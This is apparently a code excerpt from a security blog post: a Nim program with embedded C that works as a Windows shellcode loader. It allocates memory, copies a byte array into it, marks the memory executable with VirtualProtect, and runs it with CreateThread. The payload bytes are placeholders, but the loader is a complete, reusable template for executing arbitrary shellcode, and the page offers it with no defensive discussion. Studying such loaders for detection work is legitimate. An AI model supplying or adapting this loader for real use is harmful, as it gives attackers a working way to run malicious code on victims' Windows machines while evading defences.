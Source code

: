 [![](assets/1706254282-7aba550e8eaf98ad8222c095ee774394.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125223003-3a7a6ce0-bb8e-1.png)

```bash
{.emit: """

#include <windows.h>

unsigned char calc_payload[] = { 0x90, 0x90, 0x90, 0xBA, 0xDD, 0xBE, 0xEF, 0x90 };


unsigned int payload_len = sizeof(calc_payload);

int Ldrx(void) {

    PVOID calcSt;
    HANDLE calcTH;
    DWORD oldProtectCalc = 0;
    calcSt = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(calcSt, calc_payload, payload_len);
    VirtualProtect(calcSt, payload_len, PAGE_EXECUTE_READ, &oldProtectCalc);
    calcTH = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)calcSt, 0, 0, 0);
    WaitForSingleObject(calcTH, -1);
    return 0;
}

""".}
proc Ldr(): int
    {.importc: "Ldrx", nodecl.}

when isMainModule:
    var result = Ldr()
```
